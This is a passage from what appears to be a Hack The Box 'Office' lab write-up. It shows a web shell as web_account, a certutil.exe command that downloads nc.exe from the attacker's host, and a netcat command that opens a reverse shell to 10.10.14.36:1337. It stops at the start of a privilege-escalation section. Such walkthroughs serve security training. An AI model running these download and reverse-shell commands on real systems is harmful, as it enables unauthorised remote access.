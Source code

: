 Reloading **office.htb**, we get a web shell as **web_account**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-23.png)

Let's spawn a reverse shell on our netcat listener. 

On **p0wny-shell**, let's download **nc.exe** using **certutil.exe**:

`certutil.exe -urlcache -split -f http://10.10.14.36:8000/nc.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-27.png)

Running nc.exe towards our netcat listener, we should be able to spawn a shell:

`./nc.exe -e cmd.exe 10.10.14.36 1337`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-28.png)

Now we have an interactive shell as **web_account**.


## Privesc: web_account to tstark
### RunasCS

Checking on what users are there on `C:\Users`, we see user **tstark**. 
